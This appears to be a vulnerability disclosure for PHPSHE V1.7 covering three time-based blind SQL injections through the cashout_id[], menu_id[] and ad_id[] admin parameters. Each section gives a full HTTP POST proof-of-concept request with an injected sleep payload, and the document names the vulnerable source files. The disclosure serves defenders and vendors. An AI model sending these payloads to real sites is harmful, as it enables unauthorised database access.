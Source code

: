 # SQL1

PHPSHE V1.7 is vulnerable to SQL injection vulnerabilities. Attackers can inject sql statement via the cashout_id[] parameter to the server.

Poc:
```
POST /phpshe/admin.php?mod=cashout&act=success HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/phpshe/admin.php?mod=cashout&state=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Cookie: PHPSESSID=0a97c3f86f5b63a3e74ffcdf1c70b59c
Connection: close
Upgrade-Insecure-Requests: 1

cashout_id%5B%5D=1')+and+IF(1=1,sleep(2),1)+and+('1'='1

```
vulnerability verification:
![](https://github.com/lemon666/image/blob/master/1.png)
![](https://github.com/lemon666/image/blob/master/2.png)
Using sqlmap：
![](https://github.com/lemon666/image/blob/master/3.png)
the lines of code where the vulnerability exist：
module/admin/cashout.php
![](https://github.com/lemon666/image/blob/master/4.png

# SQL2

PHPSHE V1.7 is vulnerable to SQL injection vulnerabilities. Attackers can inject sql statement via the menu_id[] parameter to the server.

Poc:
```
POST /phpshe/admin.php?mod=menu&act=del&token=1dc02be6d9710d51e89a116af232dced HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/phpshe/admin.php?mod=menu
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Cookie: PHPSESSID=0a97c3f86f5b63a3e74ffcdf1c70b59c
Connection: close
Upgrade-Insecure-Requests: 1

menu_order%5B1%5D=1&menu_order%5B2%5D=2&menu_order%5B3%5D=3&menu_order%5B4%5D=4&menu_id%5B%5D=6'+and+IF(1=1,sleep(2),1)+and+'1'='1&menu_order%5B6%5D=6
```
vulnerability verification:
![](https://github.com/lemon666/image/blob/master/5.png)
the lines of code where the vulnerability exist：
module/admin/menu.php
![](https://github.com/lemon666/image/blob/master/6.png)

# SQL3

PHPSHE V1.7 is vulnerable to SQL injection vulnerabilities. Attackers can inject sql statement via the ad_id[] parameter to the server.

Poc:
```
POST /phpshe/admin.php?mod=ad&act=del&token=1dc02be6d9710d51e89a116af232dced HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost/phpshe/admin.php?mod=ad
Content-Type: application/x-www-form-urlencoded
Content-Length: 90
Cookie: PHPSESSID=0a97c3f86f5b63a3e74ffcdf1c70b59c
Connection: close
Upgrade-Insecure-Requests: 1

ad_id%5B%5D=17'+and+IF(1=1,sleep(2),1)+and+'1'='1&ad_order%5B17%5D=0&ad_order%5B16%5D=0&ad_order%5B12%5D=0&ad_order%5B18%5D=3
```
vulnerability verification:
![](https://github.com/lemon666/image/blob/master/7.png)
the lines of code where the vulnerability exist：
module/admin/ad.php
![](https://github.com/lemon666/image/blob/master/8.png)

